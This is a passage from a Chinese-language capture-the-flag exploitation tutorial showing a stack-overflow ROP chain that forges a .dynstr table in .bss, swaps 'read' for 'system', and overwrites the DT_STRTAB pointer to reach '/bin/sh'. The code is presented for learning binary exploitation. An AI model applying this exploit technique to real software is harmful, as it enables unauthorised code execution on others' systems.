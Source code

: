 加上后`exp`如下所示：

```python
pop_rdi = 0x4011d3
pop_rsi_r15 = 0x4011d1
pop_rdx = 0x401136
offset = 0x108
fake_table = elf.bss() + 0x200
binsh_addr = elf.bss() + 0x300

dynstr_data = elf.get_section_by_name('.dynstr').data().replace(b'read', b'system')

# step 0: 在bss上构建一个fake dynstr table
payload = b'a'*0x108 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_table) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 1: 在bss上写一个binsh字符串，作为system函数参数
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(binsh_addr) + p64(0xdeadbeaf) + p64(elf.plt['read'])

sh.send(payload)

sh.send(dynstr_data) # fake dynstr table
sh.send("/bin/sh\x00") # 最终函数参数
```

## step 2: 修改dynamic中的dynstr字符串表

我们在`step0`中伪造了一个假的`dynstr table`，但并没有修改程序中指示该表存放位置的指针。因此，这一步中我们会修改`DYNAMIC`段中的指针，使其指向我们构造的`fake table`。

`DYNAMIC`位于`got`表上方的另一个`LOAD`段，如下所示：

（若你无法找到该段，请移步最上方`可能遇到的问题`）

![image-20240606161524319](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406061615386.png)

其中存放了各种表的指针。我们选中上方箭头指向的`DT_STRTAB`，按下键盘上的`ctrl + "+"`，即可展开表项：

![image-20240606161540975](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406061615023.png)

可以看到其指针的地址为`0x4031f0`。我们修改`0x4031f0`处的值为`fake table`的地址即可。

到此的`exp`为：

```python
pop_rdi = 0x4011d3
pop_rsi_r15 = 0x4011d1
pop_rdx = 0x401136
offset = 0x108
dynstr_table_addr = 0x4031f0
fake_table = elf.bss() + 0x200
binsh_addr = elf.bss() + 0x300

dynstr_data = elf.get_section_by_name('.dynstr').data().replace(b'read', b'system')

# step 0: 在bss上构建一个fake dynstr table
payload = b'a'*0x108 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_table) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 1: 在bss上写一个binsh字符串，作为system函数参数
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(binsh_addr) + p64(0xdeadbeaf) + p64(elf.plt['read'])
# step 2: 修改dynamic中的dynstr字符串表，将其改为伪造的dynstr table的地址
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(dynstr_table_addr) + p64(0xdeadbeaf) + p64(elf.plt['read'])

sh.send(payload)

```